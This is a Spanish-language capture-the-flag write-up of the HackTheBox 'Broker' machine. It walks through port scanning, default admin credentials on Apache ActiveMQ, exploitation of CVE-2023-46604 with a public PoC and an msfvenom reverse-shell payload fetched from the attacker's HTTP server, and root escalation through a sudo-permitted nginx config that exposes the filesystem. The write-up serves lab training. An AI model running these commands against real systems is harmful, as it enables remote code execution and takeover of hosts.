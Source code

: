 ```yaml
---
title: "Broker - HackTheBox"
layout: post
date: 2023-12-20 08:10
tag: 
- hackthebox
- Broker
- Abusing Sudoers
- nginx
- RCE
- msfvenom
image: /assets/images/hackthebox/Broker.png
headerImage: true
projects: false
hidden: false
description: "Broker - HackTheBox"
category: blog
author: CAHOn3R
externalLink: false
---
```


# Enumeración

Como casi siempre empezamos la enumeración realizando un escaneo de puertos con **nmap**

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG allPorts 10.10.11.243

[*] Open ports: 22,80,1883,5672,7777,8161,37549,61613,61614,61616

-p- # para escanear los 65535 puertos que existen
-sS # para realizar un escaneo tipo "SYN scan"
--min-rate 5000 # para indicarle no se envien menos de 5k paquetes por segundo
--open # para que solo reporte puertos abiertos
-vvv # para que muestre por consola lo máximo posible y lo antes posible
-n # para realizar un escaneo prescindiendo de la resolución de nombres de dominio
-Pn # para que no realice la detección del estado del host antes de iniciar el escaneo
-oG # para especificar un formato de salida en modo greppable en el archivo allPorts
```
Y lanzamos los scripts básicos de reconocimiento para tratar de detectar la versiones y servicios de cada uno de ellos

```bash
nmap -sCV -p 22,80,1883,5672,7777,8161,37549,61613,61614,61616 10.10.11.243 -oN targeted
```
Yo lo exporto al archivo targeted para poder leerlo más cómodamente y tenerlo accesible en el futuro.

```java
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
7777/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-server-header: nginx/1.18.0 (Ubuntu)
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
37549/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
```
Vemos mucha información, muchos servicios, muchas versiones... Vamos a continuar con la enumeración.

```bash
whatweb http://10.10.11.243/
http://10.10.11.243/ [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.243], PoweredBy[Jetty://], Title[Error 401 Unauthorized], WWW-Authenticate[ActiveMQRealm][basic], nginx[1.18.0]
```
Aquí vemos que el servidor web lo corre un Linux, y nos dice "Unauthorized" así que imagino que tendrá que haber una autentificación previa para acceder a donde sea que nos lleve esto.
[<img src="/assets/images/hackthebox/captura1.png">](/assets/images/hackthebox/captura1.png)
Y efectivamente hay un panel de autentificación, pruebo `admin:admin` y para dentro... Una vez dentro vemos un [Apache ActiveMQ](https://genos.es/activemq-soporte/) que además ya habíamos visto antes con **nmap** en el puerto **61616** con la versión **5.15.15**, solo por confirmar, hago clic en "Support" y veo lo siguiente.[<img src="/assets/images/hackthebox/captura2.png">](/assets/images/hackthebox/captura2.png)
# Explotación

Tras una breve, muy breve búsqueda en Google doy con este [poc RCE](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), me lo descargo en mí máquina atacante y lo ejecuto tal y como dice en el **poc**.
```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell
cd CVE-2023-46604-RCE-Reverse-Shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
python3 -m http.server 8001
./ActiveMQ-RCE -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:8001/poc-linux.xml
```

Tal y como nos explican editamos el **poc-linux.xml** para que apunte a nuestra **IP**, compartimos un servidor con **Python** para que el script pueda acceder a nuestro archivo **.elf**[<img src="/assets/images/hackthebox/captura3.png">](/assets/images/hackthebox/captura3.png)
Recibimos la reverse shell y hacemos el tratamiento de la **TTY**
```bash
script /dev/null -c bash
^Z # CTRL+Z
stty raw -echo; fg
	reset xterm
export TERM=xterm SHELL=bash
stty rows X columns X # tus filas y columnas 
```

> Puedes ver tus filas y columnas en tu máquina con stty -a

# PrivEsc 

Ya dentro de la máquina hacemos el típico 
```bash
sudo -l
(ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
y vemos que podemos ejecutar como cualquier usuario **nginx** 

Con la ayuda de ChatGPT creo un archivo confing para nginx
```nginx
user root; 
events { 
worker_connections 1024;
} 
http { 
	server { 
		listen 443; 
		root /; 
		autoindex on;
		}
}
```
Esto se encarga básicamente de crear un **"LFI"** ejecutado como root en la máquina víctima, entonces podemos ejecutarlo con el parámetro `-c` de **nginx** y todas las peticiones que mandemos al `localhost` por el puerto **443** se interpretaran como root.

```bash
activemq@broker$ sudo /usr/sbin/nginx -c /tmp/lfi.conf
activemq@broker$ curl localhost:443/root/root.txt
5a0ddd1174678ff246d93285c421e95f
```

